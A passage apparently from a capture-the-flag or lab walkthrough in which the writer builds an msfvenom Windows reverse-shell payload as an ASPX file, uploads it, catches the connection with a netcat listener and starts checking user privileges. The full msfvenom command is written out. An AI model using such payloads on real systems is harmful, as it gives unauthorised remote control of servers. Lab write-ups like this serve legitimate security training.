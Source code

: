 `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f aspx -o revshell.aspx`

![Untitled](images/Untitled%2042.png)

![Untitled](images/Untitled%2043.png)

And now, we can open a netcat listener and load the file we just uploaded:

![Untitled](images/Untitled%2044.png)

And we got a connection! Let’s see which user are we logged as.

![Untitled](images/Untitled%2045.png)

And, let’s see what privileges we have:
